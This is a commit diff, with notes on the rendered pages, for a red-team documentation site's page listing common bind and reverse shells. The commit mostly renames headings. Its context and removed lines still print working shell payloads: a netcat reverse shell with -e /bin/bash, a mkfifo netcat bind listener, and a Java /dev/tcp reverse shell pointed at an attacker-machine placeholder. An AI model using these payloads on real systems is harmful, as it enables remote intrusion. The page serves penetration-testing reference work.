

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/payloads/shells.md, in a window 1280 px wide and 900 px high. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/payloads/shells.md
+++ b/source/docs/payloads/shells.md
@@ -1,8 +1,6 @@
 # Common shells
 
-## Examples
-
-### Windows
+## Windows bind shells
 
 In some versions of netcat (including the `nc.exe` Windows version included with Kali at
 `/usr/share/windows-resources/binaries`, and the version used in Kali itself) there is a `-e` option which allows
@@ -12,11 +10,7 @@ for executing a process on connection:
 
 Connecting to the above listener with netcat would result in a bind shell on the target.
 
-For a reverse shell, connect back with:
-
-    nc <IP address attack machine> <port-number> -e /bin/bash
-
-#### Other reverse shells
+## Windows reverse shells
 
 Netcat:
 
@@ -106,13 +100,13 @@ ASP (Credit: Maceo – maceo @ dogmile.com):
 </HTML>
 ```
 
-### Linux
+## Linux bind shells
 
 On Linux, use this code to create a listener for a bind shell:
 
     mkfifo /tmp/f; nc -lvnp <port-number> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
 
-#### Other reverse shells
+## Linux reverse shells
 
 Netcat:
 
@@ -156,7 +150,7 @@ Java:
     p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP address attack machine>/<port-number>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
     p.waitFor()
 
-### Windows server
+## Windows server reverse shells
 
 The standard one-liner PSH reverse shell:
 
````
Also changed, not shown: source/docs/payloads/payloads.md (+40 -54 lines), source/docs/payloads/types.md (+10 -10 lines).
